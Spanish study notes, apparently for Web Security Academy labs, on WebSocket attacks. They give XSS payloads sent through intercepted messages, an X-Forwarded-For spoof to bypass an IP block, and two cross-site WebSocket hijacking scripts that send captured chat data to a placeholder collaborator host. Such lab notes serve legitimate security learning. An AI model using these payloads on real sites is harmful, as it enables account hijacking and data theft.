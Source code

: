 Web sockets es la forma en como se pueden comunicar las paginas para la transmisión grande de datos de forma segura mediante **TCP**

Es una tecnología que permite una comunicación bidireccional en tiempo real entre el cliente y el servidor. Esto significa que los datos se pueden enviar y recibir simultáneamente, lo que mejora la eficiencia y la velocidad de la transmisión de datos.

<hr>

* Manipular web socket para explotar XSS -> 

```json
Intercept message posting and attempt XSS 
{message:"<img src=x onerror=alert(1)} //o el de abajo, cualquiera
Example: ->
{
	"user":"hal pline",
	"content":"<img src=/resources/js/chat.js onerror='alert(1)'>"
}
```

* Manipular web socket para explotar XSS con blackListed IP `X-Forwarded-For` 

```json
En este caso se debe interceptar con intercepter is ON para todas las request dejarlas con X-Forwarded-For:1.1.1.1 y bypassearnos la ip bloqueada. 

Websocket hijack with template via exploit server sending

X-Forwarded-For: 1.1.1.1 to bypass IP restrictions and ofuscate xss
{"message:"<img src=1 oNeRrOr=alert`1`> } -> PAYLOAD CORRECTO.

```

* Cross Site Web Socket Hijacking: 

```json

<script>
    var ws = new WebSocket('wss://ID-LAB.web-security-academy.net/chat');
    ws.onopen = function() {
        ws.send("READY");
    };
    ws.onmessage = function(event) {
        fetch('https://BURP-COLLAB', {method: 'POST', mode: 'no-cors', body: event.data});
    };
</script>

OR 

<script>
websocket = new WebSocket('wss://your-websocket-URL')
websocket.onopen = start
websocket.onmessage = handleReply
function start(event) {
  websocket.send("READY"); //Send the message to retreive confidential information
}
function handleReply(event) {
  //Exfiltrate the confidential information to attackers server
  fetch('https://BURP-COLLAB/?'+event.data, {mode: 'no-cors'})
}
</script>

```

![[Pasted image 20250216170725.png]]

